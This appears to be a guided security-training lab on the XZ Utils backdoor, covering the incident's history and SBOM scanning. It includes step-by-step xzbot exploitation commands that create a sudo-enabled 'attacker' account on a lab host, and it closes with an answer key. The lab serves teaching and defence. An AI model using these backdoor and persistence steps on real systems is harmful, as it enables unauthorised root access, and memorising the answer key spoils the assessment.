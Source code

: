 # XZ Utils - A Case Study on Supply Chain Trust

This lab draws on the XZ Utils supply chain compromise referenced in this <a href="https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094" target="_blank">CISA alert</a> from April of 2024. The XZ Utils case study represents an incident where a supply chain trust issue led to the inclusion of a backdoor vulnerability in the XZ Utils open source software package. What's most interesting is how the vulnerability was introduced and how it was discovered (almost completely by accident). Had the vulnerability not been discovered, any system that patched its OpenSSH service with the vulnerable version of XZ Utils could have been compromised. The lab will cover the backstory to this incident and walk you through an example vulnerability test and exploitation of the backdoor.

One of the ways personnel can review software packages and libraries for vulnerabilities before installation is through the use of Software Bills of Materials (SBOMs). Additional guidance on the use and generation of SBOMs can be viewed at <a href="https://www.cisa.gov/sbom" target="_blank">CISA's SBOM information page<a>.

Further information and recommendations on using secure software can be found in the <a href="https://www.cisa.gov/sites/default/files/2023-01/ESF_SECURING_THE_SOFTWARE_SUPPLY_CHAIN_CUSTOMER.PDF" target="_blank">Securing the Software Supply Chain Guide</a>

 - This lab is expected to take 30 minutes

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

**Caution!** You must complete _all_ phases of the lab to receive your completion certificate.

## Learning Objectives

 - Understand the XZ Utils backdoor vulnerability
 - Perform exploitation of the XZ Utils backdoor vulnerability
 - Understand Software Bill of Materials
 - Analyze SBOM details for vulnerability information

## Learner Expectations

 - Learners should be comfortable with command-line operations and Secure Shell connections

## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 2 (Vulnerability Management) by analyzing and removing vulnerabilities and area 4 (Cyber Supply Chain Risk Management) by validating open source software before use.

**NICE Work Role**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Exploitation Analysis, Software Security Assessment, Vulnerability Analysis</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1118</a>: Identify vulnerabilities
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1359</a>: Perform penetration testing
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1624</a>: Conduct vulnerability analysis of software patches and updates
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1690</a>: Identify exploitable technical or operational vulnerabilities


<!-- cut -->

# Scenario

The lab begins by walking through the timeline and backstory of the XZ Utils case study. Then you will perform hands-on penetration testing and exploitation of the vulnerability in a sandbox environment.

The lab environment consists of three systems:
 - A Kali Linux system that will serve as the "attacker"
 - An unaffected or safe system
 - A vulnerable system that includes the XZ Utils vulnerability
 
You will test each system to identify which is vulnerable based on interactions with the OpenSSH service and then demonstrate an exploit of the vulnerability. The lab will also review the concept of Software Bill of Materials (SBOM). Then the lab will demonstrate how tools like Grype and Trivy can identify vulnerable libraries before using them in software.

![Network diagram for the XZ Utils lab showing Kali, vulnerable, and unaffected system](./img/network-diagram.png)

## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Unaffected System | Ubuntu |user | tartans|
| Vulnerable System | Ubuntu |user | tartans|
| Kali | Kali Linux | user | tartans |

<!-- cut -->

## XZ Utils - Case Study Details 

The following section will outline, in detail, the events that led to the inclusion and discovery of the XZ Utils vulnerability. If you are already familiar with the story, you may skip ahead to Phase 1 of the lab. This initial section exploring the XZ Utils backdoor vulnerability is a 5-minute read.

<details> 
<summary> 
<h3>XZ Utils Vulnerability Backstory</h3> 
</summary> 
<p> 

#### What is XZ Utils? 

From XZ Util's own project page, "XZ Utils provide a general-purpose data-compression library plus command-line tools" `[1]`. Compared to other compression libraries and tools, such as gzip, XZ Utils can provide up to 30% more compression, albeit at the mild expense of longer compression times `[1,2]`. 

XZ Utils and the former LZMA2 Utils libraries are often part of other services that require data compression. One of which is the OpenSSH service that provides remote command-line access to systems and is often used by administrators. Estimates are that up to 70% of SSH servers are running some form or version of OpenSSH `[3]`. Keep this statistic in mind as we review the case. 

#### An Exercise of Social Engineering and Extreme Patience 

One of the most remarkable aspects of this case is the way the actor was able to gain the XZ Utils project maintainer's trust. Here is a rough timeline of the over 2 years of events that took place leading up to the inclusion of the vulnerability`[3]`: 

 - **October, 2021 - February, 2022**: User Jia Tin sends patches to the current XZ Utils maintainer, Lasse Colin, who integrates Tin's patches into a commit in February, 2022. 
 - **April, 2022 - June, 2022**: Several sockpuppet accounts (accounts that had no previous history or Internet presence up to this point and may have been operated by Tin) begin messaging Colin complaining of slow update times and pressuring him to appoint a second maintainer; a role that Tin has poised themselves to take with their previous patch submissions. 
 - **July, 2022 - December, 2022**: Lasse makes Tin an organization member of the XZ Utils GitHub project, adding him to email lists, and granting more access than Tin had previously. 
 - **January, 2023 - January, 2024**: Jia Tin takes over more and more responsibility for the project's maintenance, becomes a full-fledged maintainer and makes a few innocuous changes to the code that will serve the attack to come. 
 - **February, 2024**: Tin merges hidden backdoor binary code into the test input files included in the XZ Utils v5.6.0 unstable release. By the end of the month, errors are reported, and this likely led Jia Tin to accelerate the timeline of their plans. Some of the suggested "fixes" to the errors would prevent the backdoor in the future by unlinking the liblzma library from the libsystemd daemon - one that is necessary for the backdoor to work. 
 - **March, 2024**: Jia Tin releases XZ Utils v5.6.1, reporting to have fixed the previous errors, but this is a deception. The update includes a new backdoor in the test files that is less noisy to avoid detection. Tin hopes that the proposed solution of unlinking the libzma libraries will no longer be seen as necessary. 
 - **March 28, 2024**: Andres Freund discovers the bug and reports his findings to Debian who proactively rolls back XZ Utils v5.6.1 to v5.4.5. Meanwhile, other Linux distributions, such as Arch Linux and RedHat, announce the backdoor and advise users to downgrade the XZ Utils package if they have one of the vulnerable versions (5.6.0 or 5.6.1). 

#### Clever Concealment 

Part of the reason that the backdoor went relatively unnoticed to others was because the backdoor was added within the test files included with the 5.6.0 and 5.6.1 releases. Tin's own comments state, “This directory contains bunch of files to test handling of .xz, .lzma (LZMA_Alone), and .lz (lzip) files in decoder implementations. Many of the files have been created by hand with a hex editor, thus there is no better ‘source code’ than the files themselves,” `[3]`. The hope was that these test files would not be scrutinized to the same degree as the actual source code files. In addition, the malicious test files were only included in the tarball download files, and not directly on the GitHub project files list, further obfuscating their existence. Upon decompression of the package during the build process, the backdoor was added to the XZ Utils and liblmza libraries. 

An infographic created by Thomas Roccia is included below: 

![Infographic of XZ Utils supply chain compromise](./img/xz-infographic.jpg) 

*https://x.com/fr0gger_/status/1774342248437813525/photo/1* 

#### Discovery 

The backdoor's discovery by Andres Freund was unintentional in nature. Andres, a Postgres developer for Microsoft, discovered that creation of SSH logins were generating several Valgrind errors and that connections took slightly longer than usual using more CPU than normal. Valgrind is a tool used to detect memory management bugs in Linux programs, and Andres was so used to his systems that he noticed the fractionally longer login times for his SSH logins to connect. The Valgrind output seemed to point to liblzma and to xz utils in large. He then discovered the obfuscated code that is run by the liblzma and XZ Utils process during his SSH login session `[4]`. 

Additionally, in the case where the OpenSSH service is run by the systemd daemon at boot, the OpenSSH service is run in the context of the root user, which in Linux, is tantamount to the highest privileged user on the system. Anyone who would exploit this backdoor would then also be granted root-level access to the underlying system. 

After being reported the vulnerability was immediately given a severity score of 10, the highest a vulnerability can have, and the designation of <a href="https://nvd.nist.gov/vuln/detail/cve-2024-3094" target="_blank">CVE-2024-3094</a>. 

#### Lessons Learned 

Luckily, there are a handful of mitigating factors that prevented this backdoor vulnerability from becoming a larger issue. 

 - 1: The backdoor was caught relatively early, and many had likely not updated or upgraded their current version of XZ Utils to one of the compromised versions. Unless operators were hyper-diligent about updating their packages, the pool of vulnerable systems would have been small at first. However, remember that up to 70% of systems with an SSH login service use a version of OpenSSH, so the potential for harm was great on a long enough timescale. 
 - 2: The backdoor relied on a specific public/private key pair to connect. This means that only the holder of the required private key would have been able to leverage the backdoor. At the time of discovery, the likelihood that the actor, Jai Ti, was going to personally target systems of interest would have been very low. However, it would have been possible for this actor to sell or offer this private key to those who would see the backdoor used for malicious intent. 
 - 3: Due to the possibly rushed execution of the attack to avoid detection, the implementation of the backdoor tended to be buggy and may not have worked on every system that leveraged XZ Utils and the liblzma libraries. Andres alludes to crashes caused by the backdoor in version 5.6.0, meaning that those who did not update to v5.6.1 had a lower chance of being exploited in the wild. 

So, what did we learn from this incident? Should we trust open source software? Overall, we likely can, as the entire purpose of open source is for the community to review and vet software to find and correct errors, bugs, and vulnerabilities. While this backdoor vulnerability had the potential to cause massive harm, it was caught relatively quickly thanks to the diligence of the larger IT and cybersecurity communities. However, this example demonstrates how the implied trust behind well-known and well-used open source software could be used for malicious purposes. 

</p> 
</details> 

## Phase 1: Test and Exploit the XZ Utils Vulnerability 

In this phase of the lab, you will test for the presence of the vulnerability, just as the discoverer did, and then perform the exploitation of the XZ Utils vulnerability. 

<details>
<summary>
<h3>Test for the Presence of the XZ Utils Vulnerability</h3>
</summary>
<p>

First, we'll walk through how to know if a system could be affected by the backdoor. We are looking for four key items:

 - The system is using `OpenSSH` for its SSH service
 - OpenSSH includes the `liblzma` library as a dependency
 - OpenSSH is `executed by systemd` at startup
 - The version of XZ Utils is either `5.6.0` or `5.6.1`

1. Open the `Unaffected-System` console and login with the credentials `user|tartans`.

2. (**Unaffected-System**) To check whether the system is running SSH, and more specifically OpenSSH, run the following command:

```
sshd -V
```

![Terminal output of sshd -V showing OpenSSH version](./img/s08-image1.png)

We can see from the output that our system is indeed using OpenSSH.

3. (**Unaffected-System**) To check whether OpenSSH includes liblzma as a library dependency, run the following command:

```
ldd $(which sshd)
```

![Terminal output of ldd $(which sshd) showing liblzma dependency](./img/s08-image2.png)

The output lists all the shared library dependencies and objects for the service in question. The output also clearly shows that OpenSSH is dependent on the liblzma library.

4. (**Unaffected-System**) To check whether OpenSSH is executed by systemd at startup, run the following commands in succession:

```
ps -eo pid,ppid,cmd | grep [s]shd
ps -eo pid,ppid,cmd | head
ls -l /sbin/init
```

![Process list showing sshd started by systemd](./img/s08-image3.png)

All of the relevant output will fit onto the screen. The first output prints the process id, parent process id, and command name for any running process that includes the name "sshd". We can see from this output that the parent process id for the sshd service is `1`. The second output simply lists the same information for the first 10 entries of the process list, allowing us to see that process 1 corresponds to `/sbin/init`. The third and final output highlights that /sbin/init is symlinked (another way of saying shortcut) to `/lib/systemd/systemd`. Since systemd is responsible for managing services at startup, this tells us that the sshd service is started at boot by the systemd account.

Therefore, we have proven that the first three criteria pass:

 - The system is using `OpenSSH` for its SSH service &#x2705;
 - OpenSSH includes the `liblzma` library as a dependency &#x2705;
 - OpenSSH is `executed by systemd` at startup &#x2705;

5. (**Unaffected-System**) Lastly, to tell which version of XZ Utils is currently installed, run the following command:

```
xz --version
```

![Terminal output of xz --version](./img/s08-image4.png)

We can see from the output that this system is not using one of the vulnerable xz-util version. Therefore, the final criteria for being a candidate for the backdoor is not true.

 - The version of XZ Utils is either `5.6.0` or `5.6.1` &#x274E;

6. Open the `Vulnerable-System` console and login with the credentials `user|tartans`.

7. (**Vulnerable-System**) Repeat steps 2-5 above for this system. Everything should be more less the same until you check the version of xz.

![Terminal output of xz --version showing vulnerable 5.6.1](./img/s08-image5.png)

This time we see that the system is using version 5.6.1, which is one of the vulnerable versions of XZ Utils.

8. (**Vulnerable-System**) Additionally, we can verify that the liblzma shared object that OpenSSH is using is the vulnerable version by running the following command:

```
ls -l /usr/local/lib/liblzma.so.5
```

When you ran the `ldd $(which sshd)` command you would have noticed that OpenSSH is still pointing to the liblzma.so.5 shared object, but the above output shows that this is symlinked to the vulnerable shared object of liblzma (liblzma.so.5.6.1).

![Terminal output showing symlink to vulnerable liblzma.so.5.6.1](./img/s08-image7.png)

In the next section, you will exploit the vulnerable system and test the effects.

</p>
</details>

<details>
<summary>
<h3>Exploit the XZ Utils Vulnerability</h3>
</summary>
<p>

In this section you will perform the exploitation of the XZ Utils backdoor using a proof-of-concept tool named <a href="https://github.com/amlweems/xzbot?tab=readme-ov-file#backdoor-demo" target="_blank">xzbot</a>, which was created by GitHub user `amlweems`.

1. Open the `Kali-XZ` console and login with the credentials `user|tartans`, if not already logged in.

2. (**Kali-XZ**) Open Firefox and browse to the hosted files site at `https://skills.hub/lab/files` (`https://10.5.5.5/lab/files`).

3. (**Kali-XZ, Firefox**) Download the `xzbot` standalone executable file to the default Downloads directory.

![Browser showing xzbot file available on Skills Hub for download](./img/s08-files.png)

The vulnerable server has been preconfigured with a private key that matches the public key used by the xzbot executable. Recall that in the published backdoor the private key of the attacker was unknown, so the keys in the lab were replaced using a pre-generated key pair that will allow us to perform the exploit.

4. (**Kali-XZ, Terminal**) Open a Terminal and change directories, set the executable flag for xzbot and then view the help options with the following commands:

```
cd /home/user/Downloads/
chmod +x xzbot
./xzbot -h
```

![Terminal showing xzbot help options](./img/s08-image8.png)

Based on the help options, we need to supply the SSH server IP and port, a command, and a seed value. For the lab we can ignore the seed value option as the default seed value of 0 was already used to generate the new key pair. This leaves just the IP, port, and command to run.

5. (**Kali-XZ, Terminal**) Exploit the OpenSSH server with the following command, where the `id` command will output the context in which the command was executed to the file `/home/user/id` on the vulnerable system:

```
./xzbot -addr 10.5.5.250:22 -cmd "id > /home/user/id"
```

You should see the following output.

![Terminal showing xzbot exploit command execution attempt](./img/s08-image9.png)

Even though the output says the SSH handshake failed, we can verify that the command was run by looking on the vulnerable system.

6. (**Vulnerable-System**) Switch to the **Vulnerable-System** console and view the contents of the `id` file you just created with the following command:

```
cat /home/user/id
```

![Terminal output of cat /home/user/id](./img/s08-image10.png)

The output shows that when we ran `id` through the xzbot backdoor connection, we were running as the root user. So, what could we do with this level of access as a malicious actor?

7. (**Kali-XZ, Terminal**) Return to the **Kali-XZ** console and run the following commands in succession:

```
./xzbot -addr 10.5.5.250:22 -cmd "useradd -m -s /bin/bash attacker"
./xzbot -addr 10.5.5.250:22 -cmd "echo 'attacker:tartans' | chpasswd"
./xzbot -addr 10.5.5.250:22 -cmd "gpasswd -a attacker sudo"
```

These commands will appear to run silently to you, but they will perform consequential tasks on the target system.

 - The first command creates a new user named `attacker`, creates a home directory for it, and then sets the user's default shell to bash
 - The second command sets the `attacker` password to `tartans`
 - The third command adds the `attacker` user to the sudoers group

8. (**Kali-XZ, Terminal**) Login to the vulnerable system using the account you just created and a password of "tartans" (enter "yes" when asked if you are sure you want to connect):

```
ssh attacker@10.5.5.250
```

9. (**Kali-XZ, Terminal, SSH Session to Vulnerable-System**) To validate that you are indeed a sudoer for the system, run the following command with the sudo password of `tartans` and the view the contents of the flag file in the root directory:

```
sudo cat /root/token
```

**Knowledge Check Question 1:** *What is the token string found in the root directory once the vulnerable system has been successfully exploited?*

Note that this directory was protected against the standard 'user' account initially so that you could not view it until you had a sudoer account at your disposal.

10. (**Kali-XZ, Terminal, SSH Session to Vulnerable-System**) Once you have the token file contents you may end the SSH session to the Vulnerable-System with the following command:

```
exit
```


You have just circumvented the standard protections for this system by creating a new privileged user account by using the backdoor in liblzma. Now that an account is created, an attacker could go about making further changes to lock out other users, erase logs to cover their tracks, and set up persistence or pivot to other systems.

#### Grading Check

(**Kali-XZ, Firefox**) To check your work, browse to the grading page at `https://skills.hub/lab/tasks` or `(https://10.5.5.5/lab/tasks)` from the Kali system. Click the `Submit/Re-Grade Tasks` button to trigger the grading checks. Refresh the results after a few moments to see your results.

![Grading check page showing exploit tasks passed](./img/s08-image13.png)

Grading Check 1: Successfully added the attacker user to the vulnerable system and added the attacker to the sudoers group.
 - New user `attacker` was added to the Vulnerable-System
 - The `attacker` user is part of the sudoers group

`Copy the token or flag strings to the corresponding question submission field to receive credit.`

### Optional Validation

1. (**Kali-XZ, Terminal**) In order to view SSH connections times and replicate what the researcher observed, you can run the following command against the Vulnerable-System:

```
(time sshpass -p 'tartans' ssh -o StrictHostKeyChecking=no user@10.5.5.250 "pidstat -C sshd 1 3") 2>&1 | grep real
```

2. (**Unaffected-System**) For the Unaffected-System you will first have to run `ip addr` locally to determine the system's IP address.

![Terminal output of ip addr showing system IP](./img/s08-image11.png)

3. (**Kali-XZ, Terminal**) Then use this IP address in the same command as above, replacing the `.250` with the correct final octet of the Unaffected-System's Ip address.

You should notice, even on repeated tests, that the Vulnerable-System always connects more slowly than the Unaffected-System.

![Terminal output comparing SSH connection times](./img/s08-image12.png)

It's quite impressive that the researcher was able to notice this small difference simply by "feel", which caused him to dig deeper and led to the discovery of the backdoor.

</p>
</details>

## Phase 2: Reviewing SBOMs for Vulnerable Packages

<details>
<summary>
<h3>Investigate the XZ Utils Package</h3>
</summary>
<p>

For this phase of the lab you will be generating and reviewing a few sample SBOMs, including one taken from the vulnerable system.

| &#128270; Software Bill of Materials (SBOM) |
|---|
|_As stated previously, SBOMs are Software Bills of Materials. SBOMs list the various libraries or even applications for a given project, package, or file. SBOMS can even be created from the contents of a system's filesystem. SBOMs are useful for creating an inventory of the various software libraries that are included in a package or project, or the various libraries and programs in a certain directory, compressed package, or other file. SBOM data can also be used to scan for known vulnerabilities attached to the specific versions of libraries, applications, or programs within the SBOM inventory list. These results can be valuable when evaluating open source software and allows personnel to correct vulnerable items before the software is used._ |

| &#128736; Syft |
|---|
|_Syft is an open source command-line interface tool used for creating SBOMs. Syft was used in this lab due to its simplicity. Syft gathers information about a target and performs additional metadata gathering when run online._ |

| &#128736; Grype |
|---|
|_Grype is an open source command-line interface tool used to scan SBOM's for known vulnerabilities. Grype leverages a vulnerability database but can be run offline as long as the database was stored locally._ |

1. (**Kali-XZ**) Open Firefox (if not already open) and browse to the hosted files site at `https://skills.hub/lab/files` (`https://10.5.5.5/lab/files`).

2. (**Kali-XZ, Firefox** Download the following files:
 - juiceshop-sbom.json: A CylconeDX formatted SBOM created from the OWASP Juice Shop site (retrieved from <a href="https://github.com/CycloneDX" target="_blank">CylconeDX</a>)
 - xz.json: An SPDX formatted SBOM based on the Vulnerable-System's xz-5.6.1 package
 - xz-5.6.1.tar.gz: The original XZ-Utils tarball including the vulnerable version of XZ Utils

![Browser showing hosted files page on Skills Hub](./img/s08-files.png)

3. (**Kali-XZ, Terminal**) Change working directories to the Downloads directory with the following commands:

```
cd /home/user/Downloads
```

4. (**Kali-XZ, Terminal**) First, you will create an SBOM of the XZ Utils tarball using `Syft` with the following command (you can ignore any warnings about not being able to fetch the latest version, as the tool is running offline):

```
syft -o spdx xz-5.6.1.tar.gz > my-xz.json
```

![Terminal output of syft creating SBOM file](./img/s08-image16.png)

Syft can view the contents of the tarball file and gather the list of libraries and packages within. The `-o` option allows you to specify the output format; SPDX in this case.

5. (**Kali-XZ, Terminal**) You can view the contents of the SBOM with `cat my-xz.json` or by viewing it directly within the OS GUI with a text editor, such as VS Code or VIM.

An important item of note is that when Syft runs in an offline fashion it might not be able to grab all the associated metadata with certain library and package files.

6. (**Kali-XZ, Terminal**) Compare the SBOM that you created with the SBOM that was pre-generated for you with the following command:

```
diff -y my-xz.json xz.json
```

![Terminal output comparing SBOM files with diff](./img/s08-image17.png)

As you scroll through the differences, you'll see that there are some sections and additional information available in the xz.json SBOM that was taken while Syft was online.

Let's check the pre-generated SBOM for any vulnerabilities flagged in the xz-5.6.1.tar.gz package using Grype.

7. (**Kali-XZ, Terminal**) Review the SBOM for any vulnerabilities associated with known CVE's with the following command (Grype will also complain about not being able to check for updates due to being run offline, but this is normal):

```
grype xz.json
```

![Terminal output of grype showing CVEs for xz-utils](./img/s08-image18.png)

You'll see that Grype flags the vulnerable version of XZ Utils right away, as well as lists the exact CVE and the version in which the CVE was fixed or resolved.

**Knowledge Check Question 2:** *What is the CVE associated with the "Unknown" severity vulnerability in the Grype output?*

Using tools like Grype to review packages before installation is critical to vulnerability management, but it also allows you to resolve the vulnerable package with a known safe version. Review of SBOM's and packages is paramount to maintaining security and reducing risk when using open source packages.

</p>
</details>

<details>
<summary>
<h3>Reviewing More Complex SBOMs with Trivy</h3>
</summary>
<p>

In this final section of the lab, you will review a more involved SBOM based on the OWASP vulnerable Juice Shop site, which is used for practicing penetration testing techniques. The site is intentionally rife with vulnerabilities, so Trivy should find many potential issues with the package.

| &#128736; Trivy |
|---|
|_Trivy is another open source command-line interface tool for performing security scanning of SBOMs. Trivy produces vulnerability information, including CVE numbers, in a table format that is easy to read and can even filter the results by severity._|

0. (**Kali-XZ, Terminal**) Because of the way Trivy runs in this offline sandboxed environment, it cannot perform automatic database updates. The trivy.db file includes metadata that compares the current date to the date on which the .db file was pulled. 

In order to trick Trivy into not running the database checks, the system clock was modified at the start of the lab to set the date back to when the database was last updated (May 6th, 2025). Check the system clock and make sure this is still the case.

If you need to set the date back yourself, you can enter the following command:

```
sudo date -s "Tue May 6 02:30:00 PM EDT 2025"
```

Since this is the last step we are performing, the date change should not affect the local system.

**Note: If at any time Trivy behaves as if it cannot read from its local database again, you can replace the cached files with the following commands:**

```
cp /home/user/metadata.json /home/user/.cache/trivy/db/
cp /home/user/trivy.db /home/user/.cache/trivy/db/
```

1. (**Kali-XZ, Terminal**) Review the Trivy output for the Juice Shop SBOM with the following command:

```
trivy sbom juiceshop-sbom.json
```

The `sbom` flag tells Trivy that we are reviewing an SBOM file, which is the `juiceshop-sbom.json` file.

The output will display a table of the libraries that have known CVE's attached and whether or not the vulnerability is still active or it has been fixed.

![Terminal output of trivy scan showing known CVEs](./img/s08-image15.png)

2. Use the table's information and Internet research to answer the following questions.

**Knowledge Check Question 3:** *How many unique libraries (not unique CVE's) are identified as having at least one CVE with a `HIGH` severity level?*

Hint: You can add the `--severity HIGH` option to the previous Trivy command to help with Knowledge Check Question 3.

**Knowledge Check Question 4:** *How many 'CRITICAL' severity CVE's are still affected in the Juice Shop package based on the SBOM and Trivy output?*

Hint: You can add the `--severity CRITICAL` option to the previous Trivy command to help with Knowledge Check Question 4.

You have now used multiple tools to gather vulnerability information from SBOMs made from various packages and libraries. There is no single tool to rule them all when it comes to SBOM review. While Grype flagged the XZ Utils vulnerability, Trivy does not in this instance. It is important to leverage multiple tools, whenever possible, to ensure you have the full picture when reviewing SBOM details.

</p>
</details>

<details>
<summary>
<h3>Lab Wrap-up</h3>
</summary>
<p>

### Conclusion

By completing this lab, you were able to review and demonstrate an exploit against the XZ Utils backdoor vulnerability. In addition, you learned about SBOMs and how they can be used to review open source software for potential vulnerabilities before use.

To recap:
 - You reviewed and compared a pair of systems to determine which was vulnerable to the XZ Utils backdoor vulnerability
 - You exploited the XZ Utils backdoor vulnerability and performed follow-on actions to gain persistent sudoer access as a new user
 - You created an SBOM from the vulnerable XZ Utils source code package
 - You analyzed the output of security and vulnerability scanning tools against SBOMs to determine specific vulnerability information

Skills exercised:
 - S0504: Skill in identifying vulnerabilities
 - S0543: Skill in scanning for vulnerabilities
 - S0544: Skill in recognizing vulnerabilities

### Answer Key

**Knowledge Check Question 1**: What is the token string found in the root directory once the vulnerable system has been successfully exploited?
 - *This answer is randomized for each lab instance*
 
**Knowledge Check Question 2**: What is the CVE associated with the "Unknown" severity vulnerability in the Grype output?
 - *CVE-2024-47611*

![Screen capture of Knowledge Check 2 correct answer](./img/kc2.png)  
  
**Knowledge Check Question 3**: How many unique _libraries_ (not unique CVE's) are identified as having at least one CVE with a `HIGH` severity level based on the Juice Shop SBOM?
 - *16*

![Screen capture of Knowledge Check 3 correct answer](./img/kc3.png)
  
**Knowledge Check Question 4**: How many 'CRITICAL' severity _CVE's/vulnerabilities_ (not unique libraries) are ALSO still marked as _affected_ based on the Juice Shop SBOM?
 - *5*

![Screen capture of Knowledge Check 4 correct answer](./img/kc4.png)
  
### References
 - `[1]`<a href="https://github.com/tukaani-project/xz" target="_blank">XZ Utils GitHub Project page</a>
 - `[2]` <a href="https://en.wikipedia.org/wiki/XZ_Utils" target="_blank">Wikipedia</a>
 - `[3]` <a href="https://research.swtch.com/xz-timeline" target="_blank">Timeline of the xz open source attack</a>
 - `[4]` <a href="https://www.openwall.com/lists/oss-security/2024/03/29/4" target="_blank">Andres Freund's Report to Openwall</a>
 - <a href="https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094" target="_blank">CISA Alert on XZ Utils</a>
 - <a href="https://www.cisa.gov/sbom" target="_blank">CISA SBOM information page<a>
 - <a href="https://www.cisa.gov/sites/default/files/2023-01/ESF_SECURING_THE_SOFTWARE_SUPPLY_CHAIN_CUSTOMER.PDF" target="_blank">CISA Securing the Software Supply Chain Guide</a>
 - <a href="https://github.com/anchore/grype" target="_blank">Grype</a>
 - <a href="https://github.com/anchore/syft" target="_blank">Syft</a>
 - <a href="https://trivy.dev/latest/" target="_blank">Trivy</a>
 - <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a>
 - <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>

</p>
</details>

